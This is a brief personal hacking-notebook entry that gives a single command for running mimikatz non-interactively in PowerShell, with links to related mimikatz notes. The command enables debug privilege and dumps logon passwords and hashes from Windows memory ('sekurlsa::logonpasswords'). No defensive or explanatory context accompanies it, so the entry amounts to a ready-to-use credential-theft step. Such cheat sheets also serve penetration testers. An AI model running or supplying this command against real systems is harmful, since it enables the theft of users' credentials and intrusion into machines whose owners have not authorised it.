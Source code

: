 # mimikatz all in one command for non-interactive powershell
```
.\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
```

# References
- [20221003151089](/zet/20221003151089/) mimikatz
- ~/kb/hacking/windows/mimikatz.md

Tags:
    #assorted

